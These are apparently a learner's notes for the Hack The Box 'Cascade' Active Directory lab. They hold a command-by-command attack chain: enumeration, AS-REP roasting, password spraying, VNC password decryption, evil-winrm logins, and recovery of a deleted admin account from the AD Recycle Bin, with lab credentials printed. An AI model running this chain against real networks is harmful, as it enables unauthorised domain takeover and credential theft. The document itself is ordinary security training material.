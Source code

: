 ### Making a Target User List (HTB Academy)
```bash
crackmapexec smb $IP --users # domain:cascade.local
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
```

##### Method 1 re-assembly rpcclient users list
```bash
cat rpc_users_raw.txt | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > rpc_users.txt

# or 

cat rpc_users_raw.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

### ASREP Roasting
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -s base > ldapsearch_all.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" > ldapsearch_dc.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" '(objectClass=person)' > ldapsearch_person.txt

ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))" | grep -i samaccountname: | cut -f2 -d" " > ldapsearch_user.txt
```
looks closely, there is one special user that other scans not poping it out.

CASC-DC1$

##### Enum others than user on ldapsearch
```bash
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" '(objectClass=person)'
```
cascadeLegacyPwd: clk0bjVldmE=

❯ echo clk0bjVldmE= | base64 -d
rY4n5eva

### ldapdomaindump
```bash
ldapdomaindump cascade.local
```

### windapsearch is way better !
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

# a little trick
cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr
```

### ASREP Roasting Again
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### Bash one-liner to try rpcclient and smb again
```bash
for u in $(cat rpc_users.txt); do smbmap -H $IP -u $u; done
for u in $(cat rpc_users.txt); do smbmap -H $IP -d cascade.local -u $u; done
```
```bash
for u in $(cat rpc_users.txt); do smbpasswd -r $IP -U $u; done
```

### Password sparying
```bash
crackmapexec smb $IP -u rpc_users.txt -p rY4n5eva | grep +

/opt/kerbrute_linux_amd64 passwordspray -d cascade.local --dc $IP rpc_users.txt rY4n5eva
```

SMB         10.129.114.189  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva

```bash
crackmapexec winrm $IP -u r.thompson -p rY4n5eva
```

### SMB Againt
```bash
❯ smbmap -H $IP -u r.thompson -p rY4n5eva
[+] IP: 10.129.114.189:445      Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

spider
```bash
crackmapexec smb $IP -u r.thompson -p rY4n5eva -M spider_plus
```

#### mount smb with creds
```bash
sudo mount -t cifs //$IP/Data /mnt -o username=r.thompson,password=rY4n5eva,domain=cascade.local
```

##### VNC Decrypt
* https://github.com/billchaison/VNCDecrypt
* https://miloserdov.org/?p=4854#65
* https://github.com/frizb/PasswordDecrypts
```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

s.smith:sT333ve2

### Bloodhound-python
```bash
bloodhound-python -c DcOnly -u s.smith -p 'sT333ve2' -d cascade.local -dc CASC-DC1.cascade.local -ns $IP
```

### Hint here
```
net user s.smith
net localgroup "Audit Share"
```
That's unusual

### Rush SMB, SMB RUSH
```bash
smbclient \\\\$IP\\Audit$ -U s.smith%sT333ve2
```

`sqlitebrowser Audit.db`

❯ echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
������D�|zC�;                                                                                                                                                                                            
The table `LDAP` contains a password for the user. But encrypted


### Privilege Escalation
❯ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[-] rpc_s_access_denied
```                                                   
❯ python3 /usr/share/doc/python3-impacket/examples/psexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
[-] share 'ADMIN$' is not writable.
[-] share 'Audit$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```
# Root

```
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd  # <-- !!! Sometimes just can't use ip to get a shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

The user is identified to belong to the `AD Recycle Bin` group. AD Recycle Bin is used to recover deleted AD objects such as Users, Groups, OUs etc. The objects keep all their properties intact.

```ps
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

add a filter for user

```
Get-ADObject -filter { SAMAccountName -eq "TempAdmin"} -includeDeletedObjects -Properties *

YmFDVDNyMWFOMDBkbGVz

evil-winrm -i cascade.local -u administrator -p baCT3r1aN00dles
```

